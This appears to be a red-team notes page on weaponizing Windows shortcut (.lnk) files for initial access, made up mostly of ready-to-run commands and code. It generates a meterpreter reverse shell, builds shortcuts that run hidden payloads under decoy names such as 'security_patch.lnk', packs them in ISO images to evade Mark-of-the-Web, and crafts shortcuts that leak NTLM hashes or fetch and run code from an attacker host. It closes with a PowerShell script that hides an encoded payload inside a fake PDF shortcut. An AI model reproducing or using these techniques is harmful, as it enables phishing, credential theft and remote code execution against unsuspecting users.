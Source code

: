 # Offensive Tools

## 01 - Scripts

### 1.1 - [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut File/Linux/Offensive Tools|ShortcutGen]]

#### 1.1.1 - Reverse Shell

> [!INFO]
> After selecting the custom icon ensure to append the suffix with `,0`. This will make PowerShell to treat it as a string instead of a file.

```
$ mkdir /tmp/payloads/

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o /tmp/payloads/payload.exe

$ shortcutgen -p lnk -c "C:\Windows\System32\cmd.exe" -a "/c start /min %CD%\payload.exe" --icon "C:\Windows\System32\msi.dll,0" -o /tmp/payloads/security_patch.lnk
```

Pack it into an archive inside a disk image using [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Document File/Windows/Disk Image/Generate Disk Image/Offensive Tools/PackMyPayload/Usage|`packmypayload`]]. It's recommended when evading MOTW in order for the victim to click on the shortcut file.

```
$ packmypayload -H payload.exe --out-format zip /tmp/payloads/ archive.zip

$ packmypayload --out-format iso /tmp/payloads/ Patches.iso

$ rm archive.zip
```

#### 1.1.2 - Capture NTLM Relay

```
$ shortcutgen -p lnk -i "FILESERVER" -s "Documents" -n "document.docx" -d "A hosting server." -o fileserver.lnk
```

### 1.2 - PyLNK

#### 1.2.1 - Setup

##### 1.2.1.1 - Package Manager

Install it according to your package manager.

```
$ yay -S python-pylnk3
```

##### 1.2.1.2 - Universal Install

```
$ git clone https://github.com/strayge/pylnk.git && \
sudo python3 setup.py install
```

### 2.2 - Generate Payload

#### 2.2.1 - Reverse Shell

```
$ pylnk3 c C:\Windows\System32\cmd.exe payload.lnk -a "/c payload.exe" -ii <index_number> -m Minimized -d "<description>"
```

```
$ pylnk3 c C:\Windows\System32\cmd.exe payload.lnk -a "/c payload.exe" -i /path/to/file.ext -m Minimized -d "<description>"
```

#### 2.2.2 - Capture NTLM Relay

```
$ pylnk c \\<attacker_IP>\<share_name>\@snare.txt shortcut_file.lnk

$ pylnk c \\<attacker_IP>\<share_name>\snare.txt shortcut_file.lnk
```

Scriptlet file

```
$ pylnk c C:\Windows\System32\regsvr32.exe -a "/s /u /i://<attacker_IP>/@snare scrobj.dll" payload.lnk
```

```
$ pylnk c C:\Windows\System32\OpenSSH\ssh.exe -a "\\<attacker_IP>\key.pem root@<IP>" payload.lnk
```

TODO: Provide use cases if any (refer to the link for SSH)

```
$ pylnk c C:\Windows\System32\OpenSSH\ssh.exe -a "-o \"PermitLocalCommand=yes\" -o \"LocalCommand=scp <username>@<attacker_IP>:macro_document.doc %AppData%\Microsoft\Templates\macro_document.doc\. && %AppData%\Microsoft\Templates\macro_document.doc\" <username>@<attacker_IP>" payload.lnk
```

### 1.3 - PowerShell

```powershell
$ErrorActionPreference = "Stop" # Halt on any error

# Define the shortcut's name and output path
$shortcutFileName = "interesting-title-to-click-on.pdf.lnk"
$shortcutOutputPath = "$Home\Desktop\$shortcutFileName"
$shortcutFallbackExecutionFolder = "$env:temp"

# Define the payload script
$payloadScript = @'
    echo "This payload/script block can be substantial, potentially several megabytes.";
    echo $env:COMPUTERNAME >> $Home\Desktop\IhaveRun.txt
'@

# Encode the payload script in Base64
$payloadBytes = [System.Text.Encoding]::Unicode.GetBytes($payloadScript)
$encodedPayload = [Convert]::ToBase64String($payloadBytes)

# Function to convert byte array to hex string
function Convert-ByteArrayToHexString($byteArray) {
    $hexString = [System.BitConverter]::ToString($byteArray) -replace "-", ""
    return $hexString
}

# Function to convert hex string to byte array
function Convert-HexStringToByteArray($hexString) {
    $hexString = $hexString.ToLower()
    return ,@($hexString -split '([a-f0-9]{2})' | ForEach-Object { if ($_) { [System.Convert]::ToByte($_, 16) } })
}

# Function to create the shortcut with embedded payload
function CreateShortcut($payloadStartPosition, $payloadLength) {
    try {
        # Carving script to extract and execute the payload
        $carvingScript = @'
$startPosition, $payloadSize = $payloadStartPosition, $payloadLength;
$shortcutFile = '$shortcutFileName';
if (-not (Test-Path \$shortcutFile)) {
    $shortcut = Get-ChildItem -Path $shortcutFallbackExecutionFolder -Filter $shortcutFile -Recurse;
    [IO.Directory]::SetCurrentDirectory($shortcut.DirectoryName);
}
$lnkStream = New-Object IO.FileStream $shortcutFile, 'Open', 'Read', 'ReadWrite';
$encodedPayloadBytes = New-Object byte[]($payloadSize);
$lnkStream.Seek(\$startPosition, [IO.SeekOrigin]::Begin);
$lnkStream.Read($encodedPayloadBytes, 0, $payloadSize);
$decodedPayload = [Convert]::FromBase64CharArray($encodedPayloadBytes, 0, $encodedPayloadBytes.Length);
$payloadScript = [Text.Encoding]::Unicode.GetString($decodedPayload);
iex $payloadScript;
'@

        # Compress and encode the carving script
        $compressedCarvingScript = $carvingScript -replace "`n", '' -replace "`r", ''
        $carvingScriptBytes = [System.Text.Encoding]::ASCII.GetBytes($compressedCarvingScript)
        $encodedCarvingScript = [Convert]::ToBase64String($carvingScriptBytes)

        # Create the shortcut
        $wshShell = New-Object -ComObject WScript.Shell
        $shortcut = $wshShell.CreateShortcut($shortcutOutputPath)
        $shortcut.TargetPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
        $shortcut.Arguments = "-WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand $encodedCarvingScript"
        $shortcut.IconLocation = "C:\Windows\System32\SHELL32.dll, 1"
        $shortcut.Save()
        Write-Host "Shortcut created successfully." -ForegroundColor "Green"
    } catch {
        Write-Host "Error creating shortcut: $_" -ForegroundColor "Red"
    }
}

try {
    # Step 1: Create a dummy shortcut to determine payload start position
    Write-Host "Creating temporary shortcut for payload position calculation." -ForegroundColor "Green"
    $payloadLength = $encodedPayload.Length
    CreateShortcut 9999 $payloadLength

    # Step 2: Locate the start position of the payload in the shortcut file
    $encoding = [System.Text.Encoding]::UTF8
    $computerName = $env:COMPUTERNAME
    $computerNameBytes = $encoding.GetBytes($computerName.ToLower())
    $shortcutBytes = [System.IO.File]::ReadAllBytes($shortcutOutputPath)
    $shortcutHexContent = (Convert-ByteArrayToHexString $shortcutBytes) -join ''
    $computerNameHex = (Convert-ByteArrayToHexString $computerNameBytes) -join ''

    $payloadStartPosition = ($shortcutHexContent.IndexOf($computerNameHex)) / 2
    Write-Host "Payload start position in shortcut file: $payloadStartPosition" -ForegroundColor "Green"

    # Step 3: Remove the dummy shortcut and create the final one
    Remove-Item $shortcutOutputPath -ErrorAction Stop
    CreateShortcut $payloadStartPosition $payloadLength

    # Step 4: Embed the actual payload into the shortcut file
    $encodedPayloadBytes = $encoding.GetBytes($encodedPayload)
    $encodedPayloadHex = Convert-ByteArrayToHexString $encodedPayloadBytes
    $shortcutBytes = [System.IO.File]::ReadAllBytes($shortcutOutputPath)
    $shortcutHexContent = (Convert-ByteArrayToHexString $shortcutBytes) -join ''
    $updatedShortcutHexContent = $shortcutHexContent -replace $computerNameHex, $encodedPayloadHex
    $updatedShortcutBytes = Convert-HexStringToByteArray $updatedShortcutHexContent

    Set-Content -Value $updatedShortcutBytes -Encoding Byte -Path $shortcutOutputPath
    Write-Host "Payload successfully embedded into the shortcut file." -ForegroundColor "Green"
} catch {
    Write-Host "An error occurred: $_" -ForegroundColor "Red"
}
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut File/Windows/Manual]]

### Source Repositories

- [strayge: pylnk](https://github.com/strayge/pylnk)

- [rvrsh3ll: `Create-HotKeyLNK.ps1`](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Create-HotKeyLNK.ps1)

### Pentestlab

- [Pentestlab Blog: Persistence Shortcut Modification](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/)

### Hacking Articles

- [Hacking Articles: Windows Persistence Shortcut Modification](https://www.hackingarticles.in/windows-persistence-shortcut-modification-t1547/)

### Uperesia

- [Uperesia: Booby Trap a Shortcut with a Backdoor](https://www.uperesia.com/booby-trapped-shortcut)